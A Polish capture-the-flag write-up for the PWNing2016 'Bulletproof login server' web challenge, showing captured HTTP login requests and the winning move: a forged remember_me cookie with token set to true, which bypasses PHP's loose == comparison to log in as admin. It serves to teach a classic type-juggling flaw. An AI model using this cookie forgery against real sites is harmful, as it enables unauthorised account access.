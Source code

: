 ```yaml
---
title: Bulletproof login server™ - PWNing2016
author: k1k9
categories: [PWNing2016, web]
tags: [ctf, pwning2016]
---
```


# Bulletproof login server™ 
Punkty: 100
Rozwiązań: 49

Panel admina firmy Januszex z Randomia. Nie włamiesz się.
Link: https://monk.pwning2016.p4.team
Udało nam się znaleźć na śmietniku ich stary dysk twardy z którego odzyskaliśmy część kodu strony.

# Rozezeznanie
Mamy dostępne dwa linki, jeden do strony a drugi do kodu pliku o nazwie ```admin.php.corrupted.txt```
![jeden do strony](/assets/posts/bulletproof-login-server-tm/1.png)

## admin.php.corrupted.txt
Zaczniemy od analizy pliku ```admin.php.corrupted.txt```. Kod w pliku prezentuje się tak:
![code](/assets/posts/bulletproof-login-server-tm/code.png)

A oto moje wnioski:
1. Uwierzytelnianie użytkownika opiera się na ciasteczku ```remember_me```, które składa się z _loginu_ (```admin``` || ```demo```) oraz _tokenu_, który jest sprawdzany za pomocą funkcji ```getUserAuthToken(<login>)```.
2. Jeżeli nie jesteśmy zalogowani a ciasteczko ```remember_me``` jest ustawione, to zostanie wywołany kod echo.

Niewiele informacji ale sprawdźmy reszte

## login.php
Po wejściu na strone widzimy panel logowania, który informuje nas o użytkowniku demo (natkneliśmy się na niego również w kodzie, wcześniej) oraz o haśle jakie ma. 
![2](/assets/posts/bulletproof-login-server-tm/2.png)

Po zajrzeniu w kod strony nic po za bootstrapem i formularzem ciekawego nie ma:
```html
<form action="" method="POST" enctype="multipart/form-data">
    <div class="form-group">
    <label for="login">Login</label>
    <input type="text" name="login" class="form-control">
    </div>
    <div class="form-group">
    <label for="password">Password</label>
    <input type="password" name="password" class="form-control">
    </div>
    <div class="checkbox">
    <label>
        <input type="checkbox" checked disabled> For your convenience we always remember you.
    </label>
    </div>
    <button type="submit" class="btn btn-default">Submit</button>
</form>
```

Sprawdzę jak wygląda wysyłanie requestu logowania:
### Błędne dane
```http
POST /login.php HTTP/2
Host: monk.pwning2016.p4.team
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------264215124639808579761785133742
Content-Length: 296
Origin: https://monk.pwning2016.p4.team
Connection: keep-alive
Referer: https://monk.pwning2016.p4.team/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
TE: trailers

-----------------------------264215124639808579761785133742
Content-Disposition: form-data; name="login"

1337
-----------------------------264215124639808579761785133742
Content-Disposition: form-data; name="password"

1337
-----------------------------264215124639808579761785133742--
```
Odpowiedź nie jest interesująca

### Konto demo
```http
POST /login.php HTTP/2
Host: monk.pwning2016.p4.team
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------164494905017473373402467738118
Content-Length: 299
Origin: https://monk.pwning2016.p4.team
Connection: keep-alive
Referer: https://monk.pwning2016.p4.team/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------164494905017473373402467738118
Content-Disposition: form-data; name="login"

demo
-----------------------------164494905017473373402467738118
Content-Disposition: form-data; name="password"

demo123
-----------------------------164494905017473373402467738118--
```
Od razu możemy zauważyć, że ```Content-Type: multipart/form-data; boundary=``` różni się od poprzedniego. Odpowiedź:
```http
HTTP/2 302 Found
server: nginx
date: Mon, 19 Jun 2023 05:15:40 GMT
content-type: text/html; charset=UTF-8
content-length: 0
set-cookie: remember_me=%7B%22login%22%3A%22demo%22%2C%22token%22%3A%22f0d34353e4de11b28825dc2a5736c17504804013%22%7D; expires=Mon, 03-Jul-2023 05:15:40 GMT; Max-Age=1209600
location: admin.php
X-Firefox-Spdy: h2
```
Natomiast w odpowiedzi zostaje ustawione ciasteczko:
```json
{"login":"demo","token":"f0d34353e4de11b28825dc2a5736c17504804013"}
```
Jeżeli podmienimy ciasteczko na:
```json
{"login":"demo","token":"0000000000000000000000000000000000000000"}
```
otrzymamy:
![3](/assets/posts/bulletproof-login-server-tm/3.png)
Czyli już mniej więcej wiemy za co odpowiada wcześniej analizowany przeze mnie kod. Sprawdźmy czy jest tu możliwe wykonanie wrzucenie czegoś innego. Wyślemy:
```sh
{"login":"admin","token":true}
```
Po sformatowaniu na poprawne URL mamy:
```sh
%7B%22login%22:%22admin%22,%22token%22:true%7D
```
Oj i mamy flagę.

## Podsumowanie
Po przeanalizowaniu kodu jeszcze raz okazuje się, że kod który był zaciemniony jest niepotrzebny a cały problem polegał na walidacji danych:
```php
if ($obj['login'] == 'admin' && $obj['token'] == getUserAuthToken('admin'))
```
Problemem jest użycie operatora ```==``` zamiast ```===``` powoduje to rzutowanie zwracanej wartości funkcji ```getUserAuthToken('admin')``` na wartość boolowską a z racji, że jest to nie pusty string to otrzymujemy true, gdzie finalnie otrzymujemy ```true == true```
